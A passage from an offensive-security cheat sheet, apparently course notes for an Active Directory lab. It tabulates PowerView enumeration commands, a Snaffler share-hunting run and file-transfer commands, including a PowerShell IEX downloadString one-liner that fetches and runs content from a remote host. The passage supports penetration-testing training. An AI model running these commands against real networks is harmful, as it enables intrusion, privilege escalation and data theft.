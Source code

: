 | `Get-NetShare`                                                                           | PowerView script used to return a list of open shares on a local (or a remote) machine. Performed from a Windows-based host.                                                              |
| `Get-NetSession`                                                                         | PowerView script used to return session information for the local (or a remote) machine. Performed from a Windows-based host.                                                             |
| `Test-AdminAccess`                                                                       | PowerView script used to test if the current user has administrative access to the local (or a remote) machine. Performed from a Windows-based host.                                      |
| `Find-DomainUserLocation`                                                                | PowerView script used to find machines where specific users are logged into. Performed from a Windows-based host.                                                                         |
| `Find-DomainShare`                                                                       | PowerView script used to find reachable shares on domain machines. Performed from a Windows-based host.                                                                                   |
| `Find-InterestingDomainShareFile`                                                        | PowerView script that searches for files matching specific criteria on readable shares in the domain. Performed from a Windows-based host.                                                |
| `Find-LocalAdminAccess`                                                                  | PowerView script used to find machines on the local domain where the current user has local administrator access Performed from a Windows-based host.                                     |
| `Get-DomainTrust`                                                                        | PowerView script that returns domain trusts for the current domain or a specified domain. Performed from a Windows-based host.                                                            |
| `Get-ForestTrust`                                                                        | PowerView script that returns all forest trusts for the current forest or a specified forest. Performed from a Windows-based host.                                                        |
| `Get-DomainForeignUser`                                                                  | PowerView script that enumerates users who are in groups outside of the user's domain. Performed from a Windows-based host.                                                               |
| `Get-DomainForeignGroupMember`                                                           | PowerView script that enumerates groups with users outside of the group's domain and returns each foreign member. Performed from a Windows-based host.                                    |
| `Get-DomainTrustMapping`                                                                 | PowerView script that enumerates all trusts for current domain and any others seen. Performed from a Windows-based host.                                                                  |
| `Get-DomainGroupMember -Identity "Domain Admins" -Recurse`                               | PowerView script used to list all the members of a target group (`"Domain Admins"`) through the use of the recurse option (`-Recurse`). Performed from a Windows-based host.              |
| `Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName`                    | PowerView script used to find users on the target Windows domain that have the `Service Principal Name` set. Performed from a Windows-based host.                                         |
| `.\Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data`                                       | Runs a tool called `Snaffler` against a target Windows domain that finds various kinds of data in shares that the compromised account has access to. Performed from a Windows-based host. |

## Transfering Files

| Command                                                                                                                  | Description                                                                                          |
| ------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------- |
| `sudo python3 -m http.server 8001`                                                                                       | Starts a python web server for quick hosting of files. Performed from a Linux-basd host.             |
| `"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"`                                   | PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host. |
| `impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/` | Starts a impacket `SMB` server for quick hosting of a file. Performed from a Windows-based host.     |

## Kerberoasting

| Command                                                                                                                                                                                                      | Description                                                                                                                                                                                      |